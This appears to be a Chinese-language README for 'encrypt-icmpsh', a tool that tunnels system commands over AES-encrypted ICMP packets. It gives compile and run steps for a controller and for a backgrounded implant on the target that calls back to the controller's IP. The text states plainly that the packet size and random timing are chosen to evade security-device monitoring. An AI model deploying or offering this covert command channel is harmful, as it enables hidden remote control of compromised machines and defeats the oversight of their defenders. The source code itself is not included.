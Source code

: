 # encrypt-icmpsh
一个ICMP加密通信隧道，用来执行系统命令，采用aes加密，每个icmp包为64字节长度以随机时间发送，躲过安全设备监测。
（aes加密算法采用的是csdn大佬R-QWERT代码）


使用方法：
控制机：
gcc -g icmpsendcmd.c icmp1send.c aes.c -o icmpsend

./icmpsend  被控制机ip


被控机：
gcc -g testicmpback.c aes.c icmp1back.c -o icmpback

nohup ./icmpback 控制机ip & (进入后台运行)


效果：
控制端：
![image](https://user-images.githubusercontent.com/53997549/174488396-94e305bd-4abf-4e68-a3c0-7b2a98dcee74.png)

抓包效果：

![image](https://user-images.githubusercontent.com/53997549/174488497-0e5c46d2-ba00-43fd-893a-15f809070d6f.png)
